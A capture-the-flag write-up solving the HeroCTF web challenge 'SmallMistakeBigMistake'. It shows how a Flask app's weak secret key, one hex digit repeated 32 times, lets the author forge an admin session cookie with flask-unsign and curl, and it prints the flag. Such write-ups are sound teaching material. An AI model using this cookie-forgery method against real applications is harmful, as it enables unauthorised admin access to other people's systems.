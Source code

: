 # SmallMistakeBigMistake

## The Problem

Points: 486

Rating: web easy

Author: xanhacks

Flavor Text:
```
The website developer made a small mistake in the code of his website. Can you identify and exploit it to extract the flag?

https://smallbigmistake.web.heroctf.fr




```

Attachments : [main.py](main.py)



## Solution

reviewing the source code we have a few key details that jump out:

```
from flask import Flask, session, render_template

```

we have a flask app

```
    flag = "You are not admin !"
    if session and session["username"] == "admin":
        flag = getenv("FLAG")

    return render_template("index.html", flag=flag)
```

this is a very simple page printing the flag only if you have a valid session and that session includes your username as admin. This is harder as there is no active session being built for you to reverse the formatting

```
app.secret_key = choice(hexdigits) * 32
```

after researching how to do flask session this part is really important as it sets the serverside secret to something making it impossible to generate a cookie without the secret key.

this app however is generating the key using the random function choice and the string list of hexdigits and using 32 of these

the hexdigits are 0-f

I confirmed this by editing the script to print the secret each time it is run and we get this: 

![secretgen.png](secretgen.png)

so the secret is something in this range:
```
00000000000000000000000000000000
11111111111111111111111111111111
22222222222222222222222222222222
...
ffffffffffffffffffffffffffffffff
FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF
```


some digging online and the flask-unsign python app should do the trick

```
pip3 install flask-unsign
```

now using a list of the signing commands we generate a few options for attempting the request

```
flask-unsign --sign --cookie "{"username": "admin"}" --secret "00000000000000000000000000000000" --no-literal-eval
```

![](flask-unsign.png)

the default state of the target page is 

![](notadmin.png)

working my way down the list I try the sessions we generated:

```
curl 'https://smallbigmistake.web.heroctf.fr/' -H 'cookie: session=Int1c2VybmFtZTogYWRtaW59Ig.YpIoVA.hC4EKb17aTNZgPRAzAtTVV0WUSY'
```

this works but doesnt trigger the flag until one throws a serverside error. A quick check to make sure its not a fluke or the server blocking us after so many attempts shows its actually and error:

![](error.png)


reviewing the code and this may actually be the python app pitching a fit because the formatting it incorrect. 

![](serverError.png)

I had adjusted the flask-unsign example to fix the json formating that was invalid from

'{'username':'admin'}' to "{"username":"admin"}"

thinking this could have caused the server to not pickup my cookie initially? 

so I tryed the same secret but with the reverted session detail

![](cookiefix.png)



try this and:

![](flag.png)

![correct.png](correct.png)


## Flag
```
Hero{Sm4ll_Mist4ke_c4n_be_d4ngerous_10853085}

```

## Final Notes

fun simple task and added a tool to my CTF belt.
